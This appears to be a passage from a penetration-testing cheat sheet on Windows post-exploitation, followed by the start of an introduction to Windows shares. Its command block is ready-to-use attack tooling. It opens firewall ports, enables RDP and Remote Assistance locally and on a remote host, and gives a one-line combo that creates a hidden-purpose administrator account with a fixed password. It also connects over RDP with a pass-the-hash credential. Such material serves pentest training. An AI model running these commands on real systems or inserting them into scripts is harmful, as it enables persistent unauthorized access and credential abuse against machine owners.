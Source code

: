 ```bash
netsh advfirewall firewall add rule name="NetBIOS UDP Port 138" dir=out action=allow protocol=UDP localport=138
netsh advfirewall firewall add rule name="NetBIOS TCP Port 139" dir=in action=allow protocol=TCP localport=139
netsh firewall add portopening TCP 3389 "Remote Desktop"

#Enable Remote Desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed

#Enable Remote Desktop with wmic
wmic rdtoggle where AllowTSConnections="0" call SetAllowTSConnections "1"
##or
wmic /node:remotehost path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"

#Enable Remote assistance:
reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable

#Ninja combo (New Admin User, RDP + Rassistance + Firewall allow)
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

::Connect to RDP (using hash or password)
xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49
xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49
```
### Shares

#### Introduction

Shares are a common feature in Windows systems that allow users to access files and folders over a network. As a pentester, it is important to understand how shares work and how they can be exploited during an attack.

#### Types of Shares

There are two main types of shares in Windows:

1. **Administrative Shares**: These shares are created automatically by the operating system and are hidden from normal users. They have names that end with a dollar sign ($), such as `C$` or `ADMIN$`. Administrative shares provide access to the root of each drive and are typically used for administrative tasks.

